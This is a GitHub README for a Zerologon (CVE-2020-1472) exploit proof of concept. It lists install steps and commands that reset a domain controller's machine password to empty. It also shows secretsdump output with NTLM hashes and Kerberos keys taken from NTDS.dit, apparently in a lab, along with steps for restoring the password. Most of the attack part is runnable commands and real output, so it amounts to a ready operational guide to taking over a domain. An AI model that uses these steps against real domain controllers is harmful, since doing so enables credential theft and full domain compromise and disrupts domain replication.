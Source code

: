 # CVE-2020-1472 - Zero-Logon POC

![alt text](https://github.com/harshil-shah004/zerologon-CVE-2020-1472/blob/master/PoC%20-%20CVE-2020-1472.png)

This exploit requires you to use the latest impacket from [GitHub](https://github.com/SecureAuthCorp/impacket).

Ensure impacket installation is done with netlogon structures added.

Note : 

1. By default, successful exploitation changes the password of the DC Account. 

2. Allows DCSync

3. Breaks communication with other domain controllers (Be careful!)

Original Research & information [here](https://www.secura.com/blog/zero-logon)

## Installation

Requires Python 3.7 or higher and Pip. Install dependencies as follows:

    pip install -r requirements.txt

<p align='center'>
  <img src='./Screenshots/install-req.png' alt="HTB">
</p>
    
## Before Zerologon 

<p align='center'>
  <img src='./Screenshots/before-zerologon.png alt="HTB">
</p>
Unable to dump secrets!

## Performing Zerologon Attack!

    huyqa@bananoname-pc:~/Music/zerologon-CVE-2020-1472$ python3 zero-logon-exploit.py AD-SRV 192.168.56.129
    Performing authentication attempts...
    ==================================================================================================================
    Target vulnerable, changing account password to empty string

    Result: 0

    Exploit complete!


<p align='center'>
  <img src='./Screenshots/Screenshot from 2023-12-28 15-35-49.png' alt="HTB">
</p>

## After Zerologon
    huyqa@bananoname-pc:~/Music/impacket/examples$ python3 secretsdump.py -no-pass huyqa.local/'AD-SRV$'@192.168.56.129 -just-dc-user huyqa
    Impacket v0.11.0 - Copyright 2023 Fortra

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    huyqa.local\huyqa:1103:aad3b435b51404eeaad3b435b51404ee:fcf2d6f9c8a83291396a6555f182b8a7:::
    [*] Kerberos keys grabbed
    huyqa.local\huyqa:aes256-cts-hmac-sha1-96:bb6c792161d04c880b999be788354b1d78eb9eea90e6cf9cb5370e62f67ed46f
    huyqa.local\huyqa:aes128-cts-hmac-sha1-96:2f1a2be83abed0d24481afdf59f1a830
    huyqa.local\huyqa:des-cbc-md5:624aa89132f4987f
    [*] Cleaning up... 
    huyqa@bananoname-pc:~/Music/impacket/examples$ python3 secretsdump.py -no-pass huyqa.local/'AD-SRV$'@192.168.56.129 -just-dc-user Administrator
    Impacket v0.11.0 - Copyright 2023 Fortra

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d4ff5ed8d5357d3d073e34023e24c48:::
    [*] Cleaning up... 

<p align='center'>
  <img src='./Screenshots/after-zerologon1.png' alt="HTB">
</p>
Successfully dumped NTDS.dit secrets!

## Exploit Steps
- Read the related articles/blogs/whitepapers to know the objective of the exploit
- Run `python3 zero-logon-exploit.py` with IP and netbios name of DC
- DCSync with secretsdump, using `-just-dc` and `-no-pass` or empty hashes and the `DCHOSTNAME$` account


## Restore steps
If you make sure that [this line](https://github.com/SecureAuthCorp/impacket/blob/64ce46580286b5ab15a4737bddf85201ce2adde3/impacket/examples/secretsdump.py#L1530) in secretsdump passes (so make it `if True:` for example) secretsdump will also dump the plaintext (hex encoded) machine account password from the registry. You can do this by running it against the same DC and using a DA account.

Alternatively you can dump this same password by first extracting the registry hives and then running secretsdump offline (it will then always print the plaintext key because it can't calculate the Kerberos hashes, this saves you modifying the library).

With this password you can run `restorepassword.py` with the `-hexpass` parameter. This will first authenticate with the empty password to the same DC and then set the password back to the original one. Make sure you supply the netbios name and IP again as target, so for example:

```
python restorepassword.py testsegment/s2016dc@s2016dc -target-ip 192.168.222.113 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3...etc
```

Credits for Exploit Provision : [dirkjanm](https://github.com/dirkjanm) 
